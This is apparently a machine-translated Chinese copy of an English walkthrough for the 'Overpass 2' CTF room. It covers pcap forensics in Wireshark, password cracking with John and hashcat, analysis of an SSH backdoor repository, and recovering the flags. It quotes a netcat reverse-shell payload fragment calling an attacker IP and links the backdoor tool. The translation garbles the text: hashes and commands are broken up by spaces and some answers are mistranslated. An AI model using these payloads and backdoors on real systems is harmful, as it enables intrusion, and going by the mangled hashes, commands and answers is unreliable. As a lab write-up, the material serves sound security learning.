






# 天桥 2 演练

> 原文：<https://infosecwriteups.com/overpass-2-walkthrough-d73dc84fa65e?source=collection_archive---------0----------------------->

嗨，伙计们……
今天我们将开始一个新的法医 CTF 挑战赛。我们试着解决这个问题。但是在我们开始这个 CTF 之前，我们需要知道一些法医学的基础知识。

首先，我们需要知道两件事。第一个是 Wireshark，第二个是 pcap 文件

1)**Wireshark 是什么？**
Wireshark 是一款免费开源的数据包分析器。它用于网络故障排除、分析、软件和通信协议开发以及教育

2) **什么是 pcap 文件？**
PCAP 文件是具有网络会话数据的数据文件。这些文件包含关于主机之间建立了何种连接、攻击者如何渗透系统(在入侵的情况下)、通过网络传输的所有数据(如传输的文件等)的数据都被记录和保存。因此，他们被彻底分析，寻找攻击的线索。分析 PCAP 文件的常用工具是 Wireshark。

我们的第一个任务是下载给定的 pcap 文件，并在 wireshark 的帮助下进行分析。

**TASK-1**
Q1)他们用来上传反向外壳的页面的网址是什么？

答复:/发展/

暗示

> ANS 提示:在过滤器标签中搜索 http。它显示 http 请求和响应。然后选择/development/upload.php，点击右键，进入 follow ->tcp stream。并分析它

Q2)攻击者使用什么有效载荷来获取访问权限？

ANS:& 1 | NC 192 . 168 . 170 . 145 4242 >/tmp/f ")？>

Q3)攻击者使用了什么密码来访问 privesc？

答:当 whenevernoteartinstant

> ANS 提示:一些有用的 wireshark 过滤器可以帮助我找到答案。
> 
> 1)http
> 
> 2)http.request.method==POST
> 
> 3)框架包含密码[键入您需要的关键字]

Q4)攻击者如何建立持久性？

答案:[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

Q5)使用快速跟踪单词表，有多少系统密码可以破解？

答:4

ANS 提示:去下载 fasttrack.txt 文件。然后安装开膛手约翰密码破解。下一步是将/etc/passwd 保存到一个. txt 文件。

john-wordlist =/usr/local/share/fast track . txt over hash . txt
(开膛手 John 有一个优点是它会自动检测哈希类型)

## 任务 2 研究—分析代码

ssh 后门

这里我们知道一件事。攻击者使用 Github ssh-后门。
所以我们接下来的工作就是分析 github 后门代码。然后我们去 git 克隆[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)仓库并分析代码

Q1)后门的默认散列是什么？

ANS:BDD 04d 9 bb 7621687 f 5 df 9001 f 5098 EB 22 BF 19 ea C4 C2 c 30 b 6 f 23 efed 4d 24807277d 0f 8 BF CCB 9 e 77659103d 78 c 56 e 66d 2d 7d 8391 DFC 885d 0e 9 b 68 ACD 01 fc 2170 e 3

Q2)后门的硬编码盐是什么？

ANS:1c 362 db 832 F3 f 864 c8 C2 Fe 05 f 2002 a 05

Q3)攻击者使用的哈希是什么？—为此回到 PCAP！

ANS:6d 05358 f 090 EEA 56 a 238 af 02 e 47d 44 ee 5489d 234810 ef 6240280857 EC 69712 a3 E5 e 370 b8 a 41899d 0196 ade 16 c0d 54327 c 5654019292 CBF E0 b 5 e 98 ad 1 FEC 71 bed

Q4)使用 rockyou 和您选择的破解工具破解哈希。密码是什么？

答案:11 月 16 日

> ANS 提示:我们的下一步是分析散列。我们可以看到在这个 hash 6d 05358 f 090 EEA 56 a 238 af 02 e 47d 44 ee 5489d 234810 ef 6240280857 EC 69712 a 3 e 5e 370 b8 a 41899d 0196 ade 16 c 0d 54327 c 5654019292 CBF 0 b 5 e 98 ad 1 FEC 71 bed→这是阿沙-512 hash 和:1c 362 db 832 f 386 所以这是以($pass:$salt)的形式。转到 hashcat 找到哈希模式号并破解它
> 
> hashcat-m 1710-a 0 over hash . txt/usr/local/share/rock you . txt—force

## 任务 3 攻击—返回！

Q1)攻击者破坏了网站。他们留下了什么信息作为标题？

ANS:CooctusClan 的 H4ck3d

Q2)用户标志是什么？

答:thm { d 119 B4 fa 8 c 497 DDB 0525 f 7 ad 200 e 6567 }

ANS 提示:

在 nmap 扫描之后，我们发现 ssh 在端口 22 和 2222 上运行。下一步是尝试登录 ssh。因为这里我们知道用户名和密码。

密码:11 月 16 日

下一步是转到主目录并找到标志

Q3)什么是根标志？

答案:thm { d53b 2684 f 169360 bb 9606 c 333873144d }

ANS 提示:

转到主目录并列出所有文件。这里我们可以看到一个名为。suid_bash。执行二进制文件并找到根标志

谢谢你